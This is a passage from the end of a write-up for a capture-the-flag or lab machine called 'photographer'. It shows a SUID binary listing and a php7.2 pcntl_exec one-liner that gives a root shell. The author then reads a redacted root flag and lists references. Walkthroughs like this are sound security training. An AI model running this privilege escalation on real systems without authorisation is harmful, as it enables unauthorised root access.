   206797    136 -rwsr-xr-x   1 root     root         136808 Jan 31  2020 /usr/bin/sudo
   200437     16 -rwxr-sr-x   1 root     tty           14752 Mar  1  2016 /usr/bin/bsd-write
   200476     40 -rwsr-xr-x   1 root     root          40432 May 16  2017 /usr/bin/chsh
   200474     52 -rwsr-xr-x   1 root     root          49584 May 16  2017 /usr/bin/chfn
   200511     36 -rwxr-sr-x   1 root     crontab       36080 Apr  5  2016 /usr/bin/crontab
   200256     36 -rwxr-sr-x   1 root     shadow        35600 Apr  9  2018 /sbin/unix_chkpwd
   200215     36 -rwxr-sr-x   1 root     shadow        35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
   163189     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   163115     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   163152     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   163190     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
   163236     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   163216     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
www-data@photographer:/home/daisa$ 
```

We have `/usr/bin/php7.2` as a good candidate!

### Get a root shell

Now we can get a root shell

```bash
www-data@photographer:/home/daisa$ php7.2 -r 'pcntl_exec("/bin/sh", ["-p"]);'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# 
```

### Get the root flag

Finally, we can get the root flag

```bash
# cd /root
# ls -l
total 4
-rw------- 1 root root 33 Feb 22 09:02 proof.txt
# cat proof.txt
2<REDACTED>7
# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [CrackMapExec - GitHub](https://github.com/byt3bl33d3r/CrackMapExec)
- [CrackMapExec - Kali Tools](https://www.kali.org/tools/crackmapexec/)
- [CrackMapExec - Wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [pentestmonkey - php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [php - GTFOBins](https://gtfobins.org/gtfobins/php/)
- [php - Linux manual page](https://linux.die.net/man/1/php)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [Samba (software) - Wikipedia](https://en.wikipedia.org/wiki/Samba_(software))
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [webshells - Kali Tools](https://www.kali.org/tools/webshells/)
- [which - Linux manual page](https://linux.die.net/man/1/which)
